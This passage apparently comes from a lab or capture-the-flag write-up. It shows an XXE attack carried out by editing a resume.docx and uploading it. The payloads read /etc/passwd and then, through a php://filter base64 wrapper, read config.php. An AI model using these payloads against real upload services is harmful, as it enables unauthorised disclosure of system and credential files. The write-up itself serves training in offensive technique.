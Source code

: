 If we don't have the `docx` library installed, we can install it with:

```python
pip install python-docx
```

Now we need to do this:

![](images/Pasted%20image%2020250430162215.png)

Let's unzip it and add the `XXE` code:

![](images/Pasted%20image%2020250430162255.png)

Now, we need to copy the payload and change the `Reginald Dodd` stuff to `&test;`:

```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```

![](images/Pasted%20image%2020250430162458.png)

![](images/Pasted%20image%2020250430162445.png)

Once we do the modifications, we need to zip it again, let's do:

```
zip resume.docx word/document.xml
```

Now, let's upload the file:


![](images/Pasted%20image%2020250430162629.png)

There we go, as we can see, we are able to read `/etc/passwd`, let's modify the contents to read `config.php`, we need to unzip the `resume.docx` again, and change the payload to this one:

```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
```

![](images/Pasted%20image%2020250430163216.png)

Let's zip it again:

```
zip resume.docx word/document.xml
```

If we upload it:


![](images/Pasted%20image%2020250430163726.png)


Let's decode the contents and save them to a file, now, we can check the `config.php` file:


![](images/Pasted%20image%2020250430163822.png)
